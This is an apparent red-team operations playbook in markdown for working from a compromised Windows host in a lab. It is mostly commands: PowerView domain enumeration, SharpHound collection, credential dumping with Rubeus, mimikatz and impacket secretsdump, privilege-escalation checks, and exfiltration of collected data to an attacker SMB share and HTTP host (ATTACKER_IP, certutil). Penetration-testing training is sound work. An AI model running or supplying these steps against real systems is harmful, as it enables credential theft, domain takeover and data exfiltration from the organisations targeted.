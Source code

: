 ```yaml
---
title: "Foothold Machine — Operations Playbook (2025)"
tags: [Foothold, Windows, SharpHound, Rubeus, Mimikatz, Collection]
author: "RedMind"
date: 2025-10-22
---
```


# Foothold Machine — Operations

Concise operational checklist for acting from a compromised Windows host (foothold) in a lab: enumeration, data collection, privilege escalation checks, safe persistence patterns, and exfil of collectors.

---

## Quick checklist
- [ ] Initial host recon (whoami, ipconfig, systeminfo)
- [ ] Domain-aware enumeration (PowerView/PowerShell)
- [ ] SharpHound collection (create collector zip)
- [ ] Credential harvesting (klist, Rubeus dump, mimikatz if SYSTEM)
- [ ] Local privilege escalation checks (services, scheduled tasks, ACLs)
- [ ] Exfil collector zip to attacker SMB/HTTP
- [ ] Cleanup (remove binaries, artifacts) per lab rules

---

## Initial host enumeration
```powershell
whoami /all
ipconfig /all
systeminfo
net user
net localgroup
nltest /dsgetdc:DOMAIN

# If PowerView available:
Import-Module .\PowerView.ps1
Get-NetUser -Domain DOMAIN | Out-File users.txt
Get-NetGroup -Domain DOMAIN | Out-File groups.txt
Get-NetComputer -Domain DOMAIN | Out-File comps.txt
Get-NetDomain
Get-NetForest
```

---

## BloodHound collection
```powershell
# run as current user
.\SharpHound.exe -c All
# copy resulting zip(s) to attacker (via SMB)
Copy-Item .\CollectionName.zip \\ATTACKER_IP\share\SharpHound\
```

Notes:
- Use only the collector binary that matches your BloodHound server version.
- If unable to run C# binary, use `bloodhound-python`.

---

## Credential harvesting
- `klist` - list Kerberos tickets
- `Rubeus.exe dump` - dump tickets to files
- `mimikatz` - `sekurlsa::logonpasswords` when you have SYSTEM

Remote secretsdump from attacker (if you have the right privileges):
```bash
python3 /usr/share/impacket/examples/secretsdump.py DOMAIN/ADMIN:Pass@FOOTHOLD_IP
```

---

## Privilege escalation checks
- Check service permissions and unquoted service paths
- List scheduled tasks: `schtasks /query /fo LIST /v`
- Look for writable directories on service accounts
- Run winPEAS (if allowed) for automated checks

---

## Exfil & housekeeping
- Exfil collector zips via SMB: `Copy-Item` or via HTTP `certutil -urlcache -split -f http://ATTACKER/file.zip file.zip`
- Remove tools: `Remove-Item .\SharpHound.exe`, `Remove-Item .\mimikatz.exe`
- Create `postop.log` in `C:\Users\<user>\Desktop\` with timestamps, commands, and collected artifacts list

---